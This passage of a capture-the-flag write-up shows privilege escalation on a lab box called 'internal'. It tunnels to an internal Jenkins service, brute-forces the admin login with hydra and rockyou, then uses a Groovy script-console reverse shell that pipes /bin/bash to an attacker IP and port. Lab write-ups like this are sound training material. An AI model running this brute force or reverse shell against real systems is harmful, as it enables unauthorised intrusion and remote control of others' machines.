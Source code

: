 So we go ahead and use these crendential and are able to ssh as aubreanna

#Root Escalation

We find the user.txt flag in the home directory of aubreanan but can't run sudo and don't find any new SUID binaries. However the follwing file in the home directory gives us some info
```
aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

So there is a internal service running so we go ahead and set up an ssh tunnel to access the service ourselves.
```
# ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm
```

We can navigate 127.0.0.1:8080 to access the service now and are present a jenkins login panel at 127.0.0.1:8080/login?from=%2F. We go ahead and try some default credentials for admin to no avail so lets try and brute force it with hydra. We note the fields being sent in the request to /j_acegi_security_check; j_username, j_password, and from. We use hydra as follows
```
# hydra -t 64 -l admin -s 8080 -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F:F=Invalid username or password"
```

We successfully find the password and are able to access the admin panel we can referenece the following article, https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6, on how to abuse groovy script on jenkins to send ourselves a reverse shell with the following.
```
String host="IP";
int port=PORT;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Our listener picks up the shell and we are the jenkins user and notice a couple interesting things
```
whoami
jenkins
ls -la
total 84
drwxr-xr-x   1 root root 4096 Aug  3  2020 .
drwxr-xr-x   1 root root 4096 Aug  3  2020 ..
-rwxr-xr-x   1 root root    0 Aug  3  2020 .dockerenv
drwxr-xr-x   1 root root 4096 Aug  3  2020 bin
drwxr-xr-x   2 root root 4096 Sep  8  2019 boot
drwxr-xr-x   5 root root  340 May 14 18:28 dev
drwxr-xr-x   1 root root 4096 Aug  3  2020 etc
drwxr-xr-x   2 root root 4096 Sep  8  2019 home
drwxr-xr-x   1 root root 4096 Jan 30  2020 lib
drwxr-xr-x   2 root root 4096 Jan 30  2020 lib64
drwxr-xr-x   2 root root 4096 Jan 30  2020 media
drwxr-xr-x   2 root root 4096 Jan 30  2020 mnt
drwxr-xr-x   1 root root 4096 Aug  3  2020 opt
dr-xr-xr-x 123 root root    0 May 14 18:28 proc
drwx------   1 root root 4096 Aug  3  2020 root
drwxr-xr-x   3 root root 4096 Jan 30  2020 run
drwxr-xr-x   1 root root 4096 Jul 28  2020 sbin
drwxr-xr-x   2 root root 4096 Jan 30  2020 srv
dr-xr-xr-x  13 root root    0 May 14 19:15 sys
drwxrwxrwt   1 root root 4096 May 14 18:28 tmp
drwxr-xr-x   1 root root 4096 Jan 30  2020 usr
```